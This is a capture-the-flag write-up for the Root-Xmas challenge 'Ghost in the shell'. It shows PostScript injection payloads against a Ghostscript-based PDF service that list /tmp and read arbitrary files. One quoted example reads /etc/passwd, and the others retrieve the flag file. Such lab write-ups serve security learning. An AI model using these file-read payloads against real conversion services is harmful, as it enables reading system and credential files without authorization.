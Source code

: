 ```yaml
---
layout: Post
format: chall
title: Day 17 - Ghost in the shell
date: 2024-12-22
ctf: Root-Xmas
tags: [Ghostscript, PDF]
category: [Misc]
---
```

# Day 17 - Ghost in the shell

<a class="back-link" href="../../">< Go back</a>

## Description

Santa noticed that there was no online PDF creation service. As he's a bit ‘old school’ he decided to create a PDF creation service based on Ghostscript. It's simple, you send him a Ghostscript script and he converts your work into a PDF!

How it works is simple:

```bash
cat hello.gs
# %!PS
# /newfont /Helvetica findfont 12 scalefont setfont
# 100 700 moveto
# (Hello, world merry Christmas) show
# showpage

cat hello.gs | socat - TCP:dyn-01.xmas.root-me.org:PORT
# Decode the base64 in PDF file and enjoy your document!
```

Your goal is to get the flag in `/tmp/flag-<RANDOM>.txt`

Author : Elweth
<https://deploy.xmas.root-me.org>

## Challenge

After looking around for how to exfiltrate and do some recon using a Ghostscript, I found [this article](https://blog.redteam-pentesting.de/2023/ghostscript-overview/) from the [hacktricks page GhostScript Injection](https://github.com/HackTricks-wiki/hacktricks/blob/master/pentesting-web/formula-csv-doc-latex-ghostscript-injection.md).

From this we get two interesting things, how to exfiltrate data:

```bash
GS> /infile (/etc/passwd) (r) file def
GS> /buff 100 string def
GS> infile buff readstring
GS<2> stack
# true
# root:x:0:0:root:/root:/bin/bash
# bin:x:1:1:bin:/bin:/sbin/nologin
# daemon:x:2:2:daemon:/sbin:/sbin/nol
```

And how to list files in a folder:

```bash
GS> (test_directory/*) { stack pop } 4096 string filenameforall
# test_directory/interesting_folder/also_interesting_file.txt
# test_directory/interesting_file.txt
```

So we need to remember that we are most likely in `-dSAFER` mode, fortunately `/tmp` is part of the `--permit-file-*` flag.

So let's modify the payloads to find our flag:

```gs
(/tmp/*) { stack pop } 4096 string filenameforall
```

This gives us:

```bash
# GPL Ghostscript 9.53.3 (2020-10-01)
# Copyright (C) 2020 Artifex Software, Inc.  All rights reserved.
# This software is supplied under the GNU AGPLv3 and comes with NO WARRANTY:
# see the file COPYING for details.
# /tmp/gs_vyLIVT
# /tmp/gs_NWnccY
# /tmp/gs_kovqcW
# /tmp/gs_5MHQhY
# /tmp/flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d.txt
```

Now that we have the flag file let's get it:

```gs
/infile (/tmp/flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d.txt) (r) file def
/buff 100 string def
infile buff readstring
<2> stack
```

And we get the flag:

```bash
# GPL Ghostscript 9.53.3 (2020-10-01)
# Copyright (C) 2020 Artifex Software, Inc.  All rights reserved.
# This software is supplied under the GNU AGPLv3 and comes with NO WARRANTY:
# see the file COPYING for details.

# false
# RM{Gh0Scr1pt_c4n_d0_THIS??}
```
